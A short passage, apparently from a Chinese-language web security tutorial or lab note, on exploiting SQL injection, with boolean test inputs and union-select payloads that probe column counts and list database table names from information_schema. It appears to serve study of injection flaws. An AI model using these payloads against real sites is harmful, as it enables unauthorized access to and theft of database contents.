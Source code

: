 查看源码

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675306469169-8a9556c2-9326-46c5-b4aa-43e390d94ac4.png)

## 堆叠注入利用

可以先使用`1' and 1=2--+`和`1' and 1=1--+`确定是否存注入，然后使用堆叠注入进行检测。

```sql
1' order by 3--+
-1' union select 1,2,3 --+
-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database() limit 1)--+ 
```

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675306783650-11560a1c-bc3e-4c12-a47d-db330f493dda.png)
